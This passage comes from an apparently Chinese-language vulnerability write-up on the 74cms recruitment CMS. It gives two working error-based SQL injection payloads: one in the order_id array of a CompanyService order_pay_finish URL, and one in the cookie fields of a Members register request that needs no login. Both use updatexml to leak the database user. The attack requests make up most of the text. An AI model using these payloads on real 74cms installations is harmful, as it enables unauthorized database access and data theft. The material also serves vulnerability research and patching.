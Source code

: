 注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a 
```

![image](img/58d349d61a48320be90e33ede087df22.png)

## 0x07 74cms独有框架漏洞第三处

文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：register(
是否需登录：不需要

![image](img/fb1c4ee3b3b4460f09c0de3927aabc39.png)

```
url: 
http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:

members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a; `headers:

Content-Type: application/x-www-form-urlencoded

X-Requested-With: XMLHttpRequest` 
```
